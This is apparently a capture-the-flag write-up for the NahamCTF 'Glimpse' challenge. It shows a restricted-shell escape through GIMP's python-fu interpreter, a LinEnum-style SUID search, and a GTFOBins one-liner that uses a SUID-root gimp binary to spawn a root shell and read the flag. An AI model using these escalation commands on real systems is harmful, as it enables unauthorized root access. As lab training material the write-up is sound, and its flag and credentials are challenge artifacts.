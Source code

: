 ```yaml
---
title: "NahamCTF: Glimpse"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


"There's not a lot to work with on this server. But there is something...

Connect here:
ssh -p 50027 user@jh2i.com # password is 'userpass'"

For this challenge, we're given a restricted shell that is unable to change directories. Looking around the system, we see that Gimp is installed, meaning we can break out of this restricted shell:

```
gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
```

Looking around the system with our non-restricted shell doesn't show us much, but if we look for uncommon SUID binaries (courtesy of Linenum.sh), we see that Gimp is installed with a SUID bit set:

```
#search for suid files
allsuid=`find / -perm -4000 -type f 2>/dev/null`
findsuid=`find $allsuid -perm -4000 -type f -exec ls -la {} 2>/dev/null \;`
if [ "$findsuid" ]; then
  echo -e "\e[00;31m[-] SUID files:\e[00m\n$findsuid" 
  echo -e "\n"
fi
...
-rwsr-sr-x 1 root root 6057888 Mar 28  2018 /usr/bin/gimp-2.8
```

Now, using GTFOBins, we can spawn ourselves a root level shell:

```
/usr/bin/gimp-2.8 -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
...
# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
# cd /root
# ls
flag.txt
# cat flag.txt
flag{just_need_a_glimpse_of_the_flag_please}
```

**flag{just_need_a_glimpse_of_the_flag_please}**
